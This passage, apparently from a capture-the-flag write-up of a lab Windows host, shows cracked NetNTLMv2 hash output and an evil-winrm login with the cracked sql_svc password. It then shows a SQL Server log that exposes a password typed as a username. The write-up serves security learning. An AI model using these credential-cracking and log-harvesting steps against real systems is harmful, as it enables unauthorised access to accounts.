````bash
1g 0:00:00:04 DONE (2025-02-01 16:06) 0.2457g/s 2629Kp/s 2629Kc/s 2629KC/s RENZOJAVIER..REDMAN69
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
````

## FOOTHOLD
---
We will use the cracked password to log into the service and see what we can find.

````powershell
❯ evil-winrm -i 10.10.11.202 -u sql_svc -p REGGIE1234ronnie
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\sql_svc\Documents> cd ..
*Evil-WinRM* PS C:\Users\sql_svc> cd Desktop
````

### Enumerating as sql_svc
---
Enumerating the service, we didn't find anything in his folder, but in the root of C, we found SQL Server logs.
In the logs there's a possible password for Ryan, but he may have typed an extra space or something that prevents him from logging in.

````powershell
*Evil-WinRM* PS C:\SQLSERVER\Logs> cat ERRORLOG.BAK
2022-11-18 13:43:05.96 Server      Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64)
	Sep 24 2019 13:48:23
	Copyright (C) 2019 Microsoft Corporation
	Express Edition (64-bit) on Windows Server 2019 Standard Evaluation 10.0 <X64> (Build 17763: ) (Hypervisor)
# At the bottom of the document we found this
2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.72 spid51      Attempting to load library 'xpstar.dll' into memory. This is an informational message only. No user action is required.
2022-11-18 13:43:07.76 spid51      Using 'xpstar.dll' version '2019.150.2000' to execute extended stored procedure 'xp_sqlagent_is_starting'. This is an informational message only; no user action is required.
````
